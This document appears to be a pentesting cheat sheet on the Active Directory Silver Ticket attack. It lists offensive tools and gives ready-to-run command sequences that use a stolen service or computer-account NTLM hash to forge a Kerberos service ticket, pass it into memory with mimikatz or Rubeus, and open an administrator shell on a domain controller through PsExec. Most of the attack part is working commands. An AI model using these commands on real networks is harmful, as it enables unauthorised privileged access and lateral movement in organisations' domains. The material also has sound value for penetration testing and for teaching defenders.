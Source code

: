 # Silver ticket

# Overview
The Silver ticket attack is based on **crafting a valid TGS for a service once the NTLM hash of service is owned (like the PC account hash).** Thus, it is possible to gain access to that service by forging a custom TGS as any user.     
In this case, the NTLM hash of a computer account (which is kind of a user account in AD) is owned. Hence, it is possible to craft a ticket in order to get into that machine with administrator privileges through the SMB service. The computer accounts reset their passwords every 30 days by default.

# Tools Needed
- [getPac](https://github.com/fortra/impacket/blob/master/examples/getPac.py)
- [ticketer](https://github.com/fortra/impacket/blob/master/examples/ticketer.py)
- [mimikatz](https://github.com/gentilkiwi/mimikatz)
- [Rubeus](https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.5_x64/Rubeus.exe)
- [PSExec (from Sysinternals Suite)](https://learn.microsoft.com/en-gb/sysinternals/downloads/sysinternals-suite)

# Exploitation
## Remote
```bash
# Get the ccache file
python ticketer.py -nthash <nthash> -domain-sid <sid> -domain domain.local -spn cifs/dc.domain.local <user>

# Set environment variable
export KRB5CCNAME=user.ccache

# Get shell
python psexec.py domain.local/user@dc.domain.local -k -no-pass
```

## Local
```powershell
# Create the ticket
mimikatz.exe "kerberos::golden /domain:domain.local /sid:<sid> /rc4:<hash> /user:<user> /service:cifs /target:dc.domain.local"

# Inject in memory using mimikatz or Rubeus
mimikatz.exe "kerberos::ptt ticket.kirbi"
.\Rubeus.exe ptt /ticket:ticket.kirbi

# Get a shell
.\PsExec.exe -accepteula \\dc.domain.local cmd
```

# References
- [https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/silver-ticket](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/silver-ticket)